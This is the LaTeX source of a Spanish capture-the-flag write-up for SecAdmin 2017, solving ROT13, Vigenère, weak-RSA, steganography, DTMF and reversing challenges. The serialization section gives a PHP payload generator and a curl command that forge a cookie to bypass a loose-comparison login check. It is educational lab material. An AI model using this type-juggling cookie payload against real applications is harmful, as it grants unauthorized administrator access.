\documentclass[11pt, spanish]{report}

\usepackage[spanish]{babel}
\selectlanguage{spanish}
\usepackage[utf8]{inputenc}
\usepackage{listings}
\usepackage{graphicx}
\usepackage{hyperref}

\usepackage{color}
\definecolor{lightgray}{rgb}{.9,.9,.9}
\definecolor{darkgray}{rgb}{.4,.4,.4}
\definecolor{purple}{rgb}{0.65, 0.12, 0.82}

\lstdefinelanguage{JavaScript}{
	keywords={typeof, new, true, false, catch, function, return, null, catch, switch, var, if, in, while, do, else, case, break},
	keywordstyle=\color{blue}\bfseries,
	ndkeywords={class, export, boolean, throw, implements, import, this},
	ndkeywordstyle=\color{darkgray}\bfseries,
	identifierstyle=\color{black},
	sensitive=false,
	comment=[l]{//},
	morecomment=[s]{/*}{*/},
	commentstyle=\color{purple}\ttfamily,
	stringstyle=\color{red}\ttfamily,
	morestring=[b]',
	morestring=[b]"
}

\title{CTF SecAdmin 2017}

\graphicspath{{Pictures/}}
\begin{document}
\maketitle

\begin{abstract}
	Write up de las pruebas del CTF de SecAdmin 2017. \#underconstruction
\end{abstract}


\section*{En el lado del cliente}
El CTF empezaba con este reto, que sólo contaba 50 puntos y era para calentar.
\\
Básicamente se trataba de una protección en el lado del cliente que había que saltarse.
\\
Hay dos formas de plantearse este problema, la primera es usando un método mecánico a través de un análisis estático del código, y la segunda teniendo analizando la variable a comparar y ver si conocemos como ha podido generarse esa cadena de caracteres.

El código del reto
\begin{lstlisting}[language=javascript]
var flag = document.getElementById("flag").value;
var ctfFlag = flag.replace(/[a-zA-Z]/g, function(c) {
	return String.fromCharCode((c <= "Z" ? 90 : 122) >= 
	(c = c.charCodeAt(0) + 13) ? c : c - 26);
});
if ("FrpNqzvaPGS17{AB_rf_oh3an_1q34_ernyvmne_3fg0_ra_ry_ynqb_qry_py13ag3}" 
== ctfFlag) 
{
	alert("Enhorabuena, la flag es correcta!");
} else {
	alert("Ops! No es la flag correcta, vuelve a probar otra vez... :(");
}
\end{lstlisting}

\subsection*{Cifrado Cesar (o Rot 13)}
Sabiendo la operación que se realiza para comparar las flags, una de las opciones que se nos puede ocurrir es que se esté usando un Cifrado Rot 13 (Observamos que se está sumando 13 a cada caracter alfa numérico)\\
Podemos usar una utilidad online para ver el contenido de \\	\textbf{FrpNqzvaPGS17\{AB\_rf\_oh3an\_1q34\_ernyvmne\_3fg0\_ra\_ry\_ynqb\_qry\_py13ag3\}} si lo pasamos por Rot-13 y observamos que el contenido es realmente:\\ \\
\textbf{SecAdminCTF17\{NO\_es\_bu3na\_1d34\_realizar\_3st0\_en\_el\_lado\_del\_cl13nt3\}}
\\ \\
Probamos que realmente es la flag buscada y conseguimos nuestra primera flag :)

\section*{Ping a Google}
\section*{Serialización}

\begin{lstlisting}[language=JavaScript]
$data = unserialize($loginCookie);

if ($data['username'] == $adminName && 
    $data['password'] == $adminPassword) {
    $adminPrivileges = true;
} else {
    $adminPrivileges = false;
}

\end{lstlisting}
Esta prueba nos hacía falta una base de conocimientos en PHP y lo primero notable es el uso de 'unserialize' y el uso de dos iguales para hacer comparaciones. \\
Juntando estas dos últimas observaciones vamos a poder saltarnos el sistema. \\

\begin{enumerate}
	\item El uso de serialize nos permite conservar el tipo de datos original, sabemos que '==' se pone un poco nervioso a la hora de comparar dos variables de tipo diferente.
	\item En la documentación de PHP, nos informan que 0 == 'cualquierString' es True. ¡BINGO! Ya tenemos casi todo hecho :)
	\item Ahora tenemos que genera el payload que introducir en la cookie, para ello acudimos a PHP.
	\item En la carpeta files hay un fichero que se llama serialize\_flag.php que contiene un pequeño script PHP para generar el payload que tenemos que escribir como cookie.
	\begin{lstlisting}[language=JavaScript]
<?php
	
$data = [
    'username' => 0,
    'password' => 0,
];
	
echo urlencode(serialize($data));
\end{lstlisting}
	\item Finalmente, con el payload generado hacemos un cURL a la web del CTF con nuestra cookie generada y...
	\begin{lstlisting}
	curl -v --cookie "SecAdminCTF=payload.."
	https://ctf.secadmin.es/flag4/index.php
	\end{lstlisting}
	
\includegraphics[width=\textwidth]{flag_serialize.png}
	\item ¡Conseguido!
\end{enumerate}

\textbf{Enlaces de interés}
\begin{itemize}
	\item Operadores PHP - \href{https://secure.php.net/manual/es/language.operators.comparison.php}{Manual de PHP}
\end{itemize}

\section*{Escritura misteriosa}
wo hldr mf ñmieppzq wq newdif eeauvñcxsw suh omñww fe lybehhwcld lqfxto gp snl onaypa ohvtevbwzvmgnwpa cuando leí eso me emocioné por esas bonitas palabras, pero me olía que eso tendría que ser Vigenere. \\ \\
Para resolver esto, tenemos que suponer algunas hipótesis y vemos a donde nos llevan. \\
Mi planteamiento fue el siguiente;
\begin{enumerate}
	\item Si hacemos un test de Kasiki llegamos a que la longitud de la clave casi con toda probabilidad es 8.
	\item Las palabras que tienen longitud 4 podrían ser FLAG, bajo está hipótesis llegamos que en la posición 4 de nuestra clave tiene que aparecer ADMI, ¡Uy! :P esto me suena de algo.
	\item ¿Será la clave SECADMIN? Probamos a descifrarlo con esta clave y llegamos a: 'el flag es vigenere en letras mayusculas que debes de introducir dentro de las llaves correspondientes'
	\item ¡Eureka!
\end{enumerate}
\textbf{Enlaces de interés:}
\begin{itemize}
	\item Test de Kasiki - \href{https://en.wikipedia.org/wiki/Kasiski_examination}{Wikipedia EN}
\end{itemize}

\section*{QR Codes}
Os sorprendería si os digo que me descargue una aplicaición para Android que me leyó directamente el QR Code que se llama QR Code Reader (Muy hacker verdad?:)) \\

\includegraphics[width=\textwidth,height=\textwidth]{qr.png}

\section*{Incidente industrial}

\section*{La matroska}
Cuando nos descargábamos los flags para este reto nos encontrábamos un public.pem y un montón de ficheros *.encrypted. \\
Lo primero que se puede suponer es que todos estos ficheros han sido cifrados con la clave pública public.pem \\
Observamos primero que la clave pública que contiene public.pem tiene una longitud "pequeña"\\
Para ver el exponente público y la clave privada podemos utilizar esta herramienta: \href{https://8gwifi.org/PemParserFunctions.jsp}{Herramienta para ver claves de un pem} \\ \\
Observamos que la clave pública está compuesta por:
$$pubmod=e260a66cd7376f7fed2c9bb770bea495$$
$$pubexp=10001$$
Con el uso de una herramienta como \href{https://www.wolframalpha.com/input/?i=300907363049052383020612454787728712853}{Wolfram Alpha} podemos factorizar la clave pública, y así poder obtener la clave privada, y vemos que la factorización es:
$$16496018614653616889 \times 18241211414598711677$$
Teniendo la factorización es trivial generar las claves privadas para poder desencriptar los ficheros. Podemos hacerlo a mano, o podemos utilizar la siguiente aplicación: \href{https://www.mobilefish.com/services/rsa_key_generation/rsa_key_generation.php}{Mobilefish} \\
Teniendo todo esto podemos escribir un script en Python que desencripte todos los ficheros ordenados y nos muestre el resultado, lo podemos ver en files/matroskas/1 y el fichero decrypt.py. En ese script se utiliza la librería PyCrypto inicializando RSA con las claves generadas en la etapa anterior. \\
Vemos entonces que nos devuelve un base64, que al decodificarlo es otro zip. (Para decodificarlo esta aplicación está bastante bien: \href{https://www.base64decode.org/}{Decodificar base64 online}) \\ \\
El segundo fichero que nos encontramos parece que también esta cifrado con RSA pero esta vez es un solo fichero, y una clave pública un poco más longeva. Sin embargo, el procedimiento sigue siendo el mismo. Es una clave pública pequeña, así que podemos intentar factorizarlo a lo bruto (Que va a tardar un poco) o usar alguna base de datos con números primos para ver si conseguimos factorizarlo. \\ \\
Usando un código similar al anterior que podemos ver en files/matroskas/2 podemos desencriptar el fichero del último fichero comprimido, y encontramos: \\ \\
$$1d2c236ab91e$$ Que es precisamente la flag que estábamos buscando :)

\section*{El telefono marcado}
En este reto teníamos un fichero de audio con tonos DTMF revertido y con una voz de fondo, que teniamos que intentar de descifrar. Con la herramienta libre Audacity eliminando el ruido y dándole vuelta al sonido, obteniamos tonos DTMF bastante limpios a partir de ahí, usando esta herramienta: \href{http://dialabc.com/sound/detect/}{Detect DTMF Tones} obtenemos un número de teléfono que era la flag.

\section*{Lo que la imagen esconde}
Este tengo que admitir que me dio bastantes dolores de cabeza; pero al final no fue tan difícil. \\
Usamos stegohide sin clave sobre el fichero files/stego.jpg y obtenemos un fichero nuevo que inicia por PIC aparentemente si ningún tipo de sentido, pero que podemos leer claramente que en algún meta dato de este fichero se puede se puede leer tEXt-- SecAdmin 2017 -- lo que es una buena señal, el fichero que tenemos es el que estábamos buscando, aunque tenemos que hacer aún algunas modificaciones el fichero original al desencriptar es files/out.txt \\ \\
Como podemos ver el magic number es PIC que no coincide con ningún formato conocido, sin embargo el formato de fichero guarda semejanzas con un fichero PNG, por tanto corregimos lo necesario para hacer que nuestro fichero sea un PNG y ¡Sorpresa! encontramos un fichero (files/png.png) que parece que contiene un mensaje en su interior. \\ \\
Cambiando los colores y haciéndolo más eye-friendly, podemos ver que contiene un código en base64 files/canvas.png y con paciencia, decodificamos este código en base64 y obtenemos la flag.

\section*{El fichero misterioso}
¡Era un fichero de impresión 3D! Una vez que sabíamos esto (Gracias a la pista que nos dieron) podiamos visualizar el contenido usando por ejemplo: \href{https://www.viewstl.com/}{View STL}

\newpage
\section*{El flag oculto}
Se trataba de un ejecutable que cuando lo abríamos nos salía 'You must unmangle the hidden flag -cosasmuraras- \\ \\
Usaremos Radare2 para analizar el ejecutable, los comandos que vamos ejecutar son:
\begin{itemize}
	\item radare2 ejecutable
	\item Escribimos pd @ main
	\item Nos muestra todo el código en ensamblador. \\
	
\includegraphics[width=\textwidth]{radare}
	\item Observamos que el vector de arriba que aparece arriba es el texto a hacerle \textit{unmangle} y abajos observamos que la función de decodificar es restar 0x35 a los valores del vector.
	\item Hagamos uso de nuestro amigo Python de nuevo, y escribamos un script que resta 0x35 a todos los valores del vector, e imprimimos lo que pone en files/unmangle.py podemos ver la implementación.
	\item ¡Eureka! Tenemos la flag.
\end{itemize}

\section*{Más}
\begin{itemize}
	\item Programa para extraer PNG de un dumpeo de memoria (beta - no se obtiene correctamente la longitud de la imagen y escribe más de la cuenta / o menos) - files/dmp2png.py
	\item Para trabajar con dump de memoria es útil abrir los ficheros con GIMP como RAW para obtener todas las imágenes contenidas
\end{itemize}

\section*{Colaboradores}
\begin{itemize}
	\item José Carlos
\end{itemize}
\end{document}          
